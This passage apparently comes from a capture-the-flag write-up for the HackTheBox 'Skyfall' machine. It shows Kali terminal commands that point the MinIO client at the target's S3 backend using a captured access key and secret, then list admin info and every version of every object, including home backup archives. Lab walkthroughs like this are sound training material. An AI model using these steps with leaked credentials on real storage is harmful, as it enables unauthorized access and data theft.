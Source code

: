 
In order to communicate with the minio instance we can use mc: [Link](https://min.io/docs/minio/linux/reference/minio-mc.html).
```bash
┌──(kali㉿kali)-[~]
└─$ mc alias set myminio <http://prd23-s3-backend.skyfall.htb> 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
mc: Configuration written to `/home/kali/.mc/config.json`. Please update your access credentials.
mc: Successfully created `/home/kali/.mc/share`.
mc: Initialized share uploads `/home/kali/.mc/share/uploads.json` file.                                                                                                                                         
mc: Initialized share downloads `/home/kali/.mc/share/downloads.json` file.                                                                                                                                     
Added `myminio` successfully.                                                                                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ mc admin info myminio                                                                    

●  minio-node1:9000
   Uptime: 3 hours 
   Version: 2023-03-13T19:46:17Z
   Network: 2/2 OK 
   Drives: 2/2 OK 
   Pool: 1

●  minio-node2:9000
   Uptime: 3 hours 
   Version: 2023-03-13T19:46:17Z
   Network: 2/2 OK 
   Drives: 2/2 OK 
   Pool: 1

Pools:
   1st, Erasure sets: 1, Drives per erasure set: 4

1.6 MiB Used, 8 Buckets, 14 Objects, 8 Versions
4 drives online, 0 drives offline
```


While enumerating files we find a backup.tar.gz file.
```bash
┌──(kali㉿kali)-[~]
└─$ mc ls --recursive --versions myminio 
[2023-11-07 23:59:15 EST]     0B askyy/
[2023-11-08 00:35:28 EST]  48KiB STANDARD bba1fcc2-331d-41d4-845b-0887152f19ec v1 PUT askyy/Welcome.pdf
[2023-11-09 16:37:25 EST] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT askyy/home_backup.tar.gz
[2023-11-09 16:37:09 EST] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT askyy/home_backup.tar.gz
[2023-11-09 16:36:30 EST] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT askyy/home_backup.tar.gz
[2024-02-04 08:15:42 EST]  48KiB STANDARD 37cd8517-665e-482f-820a-16907169e060 v1 PUT askyy/test/askyy/Welcome.pdf
[2024-02-04 08:15:43 EST] 2.5KiB STANDARD 5e64ed13-df55-4197-ae6e-6d24c864e8b9 v1 PUT askyy/test/askyy/home_backup.tar.gz
[2024-02-04 08:17:43 EST] 2.5KiB STANDARD 1d48c202-1409-41cd-857c-fe55c707e3af v2 PUT askyy/test/home_backup.tar.gz
[2024-02-04 08:17:36 EST] 2.5KiB STANDARD a7c834c0-0ee7-4a5b-963d-ea5460959a67 v1 PUT askyy/test/home_backup.tar.gz
[2023-11-07 23:58:56 EST]     0B btanner/
```
